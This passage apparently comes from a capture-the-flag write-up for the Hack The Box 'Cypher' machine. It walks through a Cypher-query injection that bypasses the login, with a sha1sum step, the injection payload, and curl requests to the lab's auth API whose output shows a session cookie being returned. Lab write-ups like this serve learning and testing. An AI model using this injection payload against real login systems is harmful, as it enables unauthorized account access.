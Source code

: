 ### 🧪 Exploitation

#### 💉 Cypher injection

I use `sha1sum` to create a sha1 hash for the word `password`.

```
fcoomans@kali:~/htb/cypher$ echo -n "password" |sha1sum
5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8  -
```

And then adds this to the injection payload, which will now return the sha1 sum for `password`, which will match the `password` parameter's `password` value and allow the login attempt.

The payload now looks like this:
```cypher
admin' OR true RETURN '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' AS hash //
```

Sending it to the server now returns a session cookie in a `200` response, instead of the `Invalid credentials` or error code messages.  
This means the login was successful.

```
fcoomans@kali:~/htb/cypher$ curl -s -X POST -H 'Content-Type: application/json' --data-binary "{\"username\":\"admin' OR true RETURN '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' AS hash //\",\"password\":\"password\"}" http://cypher.htb/api/auth
ok
fcoomans@kali:~/htb/cypher$ curl -v -s -X POST -H 'Content-Type: application/json' --data-binary "{\"username\":\"admin' OR true RETURN '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' AS hash //\",\"password\":\"password\"}" http://cypher.htb/api/auth
* Host cypher.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.57
*   Trying 10.10.11.57:80...
* Connected to cypher.htb (10.10.11.57) port 80
* using HTTP/1.x
> POST /api/auth HTTP/1.1
> Host: cypher.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Content-Type: application/json
> Content-Length: 112
>
* upload completely sent off: 112 bytes
< HTTP/1.1 200 OK
< Server: nginx/1.24.0 (Ubuntu)
< Date: Wed, 16 Jul 2025 17:24:00 GMT
< Content-Length: 2
< Connection: keep-alive
< set-cookie: access-token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbicgT1IgdHJ1ZSBSRVRVUk4gJzViYWE2MWU0YzliOTNmM2YwNjgyMjUwYjZjZjgzMzFiN2VlNjhmZDgnIEFTIGhhc2ggLy8iLCJleHAiOjE3NTI3Mjk4NDB9.0aLQ2TGsW98XtUQBqAAGCmnHMIvy-0uVTPBVpgfXagM; Path=/; SameSite=lax
<
* Connection #0 to host cypher.htb left intact
ok
```
